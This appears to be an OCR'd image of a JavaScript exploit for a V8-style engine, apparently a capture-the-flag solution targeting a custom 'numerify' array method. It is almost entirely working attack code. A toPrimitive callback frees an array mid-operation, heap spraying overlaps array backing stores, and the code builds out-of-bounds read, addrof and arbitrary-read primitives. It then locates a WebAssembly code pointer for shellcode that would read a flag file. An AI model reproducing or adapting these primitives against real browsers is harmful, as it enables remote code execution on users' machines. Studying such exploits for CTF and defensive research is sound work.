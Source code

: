 ```js
}

function do_overlap() {
    for (let i = 0; i < MAIN_SPRAY_COUNT; i++) {
        let sprayed = [];
        let a = new Array(ARRAY_SIZE);

        // Delete `a` and try to overwrite the `length` of the backing store
        // of one of our newly allocated arrays
        let evil = { [Symbol.toPrimitive]() {
            a = undefined;
            for (let j = 0; j < SPRAY_COUNT; j++) {
                let arr = new Array(ARRAY_SIZE_TWO).fill(FILL_THING);
                arr[0] = j;
                sprayed.push(arr);
            }
            return 0x200;
        }}
        a[ARRAY_SIZE - 1] = evil;
        a.numerify();

        for (let j = 0; j < sprayed.length; j++) {
            // Try and grow the length of the sprayed JSArray into our
            // fake over-large backing store
            let old_len = sprayed[j].length;
            sprayed[j].length = old_len + 4;
            let elts_length = sprayed[j][ARRAY_SIZE_TWO + 1];
            // The backing store of this array hasn't been expanded
            if (elts_length === undefined) continue;
            // Read out the elements pointer and length smi
            let [, length] = fto2i(elts_length);
            // We've overlapped with our own JSArray header
            if (length == i_to_smi(sprayed[j].length)) {
                let oob = new OobArray(sprayed[j], ARRAY_SIZE_TWO);
                let next = oob.oob_read(ARRAY_SIZE_TWO + 3);
                oob.next = sprayed[next];
                return oob;
            }
        }
    }
    return undefined;
}

let corrupted;
console.log("heap spraying, waiting for overlap...");
while (!corrupted) corrupted = do_overlap();

console.log("got corrupted");

var wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 4, 1, 96, 0, 0, 3, 2, 1, 0, 7, 9, 1, 5, 115, 104, 101, 108, 108, 0, 0, 10, 4, 1, 2, 0, 11]);
var mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(mod);
var shell = wasm_instance.exports.shell;
for (var i = 0; i < 1024 * 8; i++) shell();
let [, wasm_trused_data] = fto2i(corrupted.arb_read(corrupted.addrof(wasm_instance) + 8));
let code_ptr = ftoi(corrupted.arb_read(wasm_trused_data + 0x30));

console.log("code_ptr: 0x" + code_ptr.toString(16));

// sendfile(1, open("/app/flag.txt"), ...)
```
